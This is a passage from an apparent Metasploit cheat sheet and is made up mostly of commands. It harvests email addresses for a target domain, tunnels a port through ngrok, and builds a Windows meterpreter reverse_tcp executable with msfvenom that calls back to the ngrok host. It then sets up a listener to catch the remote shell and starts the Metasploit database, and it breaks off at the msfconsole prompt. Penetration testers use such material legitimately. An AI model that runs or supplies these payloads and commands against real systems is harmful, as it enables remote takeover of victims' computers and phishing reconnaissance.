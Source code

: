 ```


Metasploit Email Harvesting:

```
msf6 auxiliary(gather/search_email_collector) > set OUTFILE /tmp/emails.txt
OUTFILE => /tmp/emails.txt
msf6 auxiliary(gather/search_email_collector) > set DOMAIN target.com
DOMAIN => target.com
msf6 auxiliary(gather/search_email_collector) > run

[*] Harvesting emails.....
```

Attack outside of the LAN with ngrok:

First step, set up a free account in ngrok then start ngrok:

```
./ngrok tcp 9999

# Forwarding tcp://0.tcp.ngrok.io:19631 -> localhost:9999
```

Create malicious payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=19631 -f exe > payload.exe
```
Start listener:

```
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 0.0.0.0 set 
LPORT 9999 
exploit
```

Ingest Other Tools' Output Files:

```
# Start database
$ sudo systemctl start postgresql

# Initialize Metasploit database
$ sudo msfdb init

# Start msfconsole
$ msfconsole -q
msf6 >
